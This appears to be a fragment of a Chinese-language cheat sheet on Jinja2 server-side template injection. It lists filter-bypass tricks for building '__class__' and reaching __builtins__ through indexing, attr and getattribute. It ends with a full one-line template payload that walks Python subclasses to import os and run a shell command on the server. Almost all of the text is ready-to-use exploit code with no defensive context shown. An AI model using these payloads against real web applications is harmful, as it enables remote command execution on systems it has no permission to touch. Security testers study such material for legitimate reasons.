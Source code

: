 ```py
(()|select|string)[24]~
(()|select|string)[24]

dict(__clas=a,s__=b)|join
```

### 获取键值或下标

```py
dict['__builtins__']
dict.__getitem__('__builtins__')
dict.pop('__builtins__')
dict.get('__builtins__')
dict.setdefault('__builtins__')
list[0]
list.__getitem__(0)
list.pop(0)
```

### 获取属性

```py
().__class__
()["__class__"]
()|attr("__class__")
().__getattribute__("__class__")
```

## 有点意思

`{%for(x)in().__class__.__base__.__subclasses__()%}{%if'war'in(x).__name__ %}{{x()._module.__builtins__['__import__']('os').popen('ls').read()}}{%endif%}{%endfor%}`
